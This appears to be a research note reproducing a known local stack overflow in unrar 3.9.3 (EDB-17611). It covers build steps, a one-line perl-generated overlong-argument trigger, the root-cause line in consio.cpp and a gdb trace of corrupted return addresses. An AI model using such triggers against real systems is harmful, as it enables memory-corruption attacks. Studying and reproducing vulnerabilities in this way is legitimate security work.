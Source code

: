 # EDB-17611

## Experiment Environment

Ubuntu 14.04 LTS

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-17611/unrarsrc-3.9.3.tar.gz

tar -xvf unrarsrc-3.9.3.tar.gz
cd unrar

make -f makefile.unix

```

## Problems in Installation & Configuration

## How to trigger vulnerability

unrar/unrar -`perl -e 'print "3lrvs"x830'`

## PoCs

[Unrar 3.9.3 - Local Stack Overflow](https://www.exploit-db.com/exploits/17611/)

## Vulnerability Details & Patch

### Root Cause

```
consio.cpp:87

      *(OutPos++)=Msg[I];
```

### Stack Trace

```
(gdb) info stack
#0  0x66a77376 in ?? ()
#1  0xc9310807 in ?? ()
#2  0x6851e1f7 in ?? ()
#3  0x68732f2f in ?? ()
```

## References
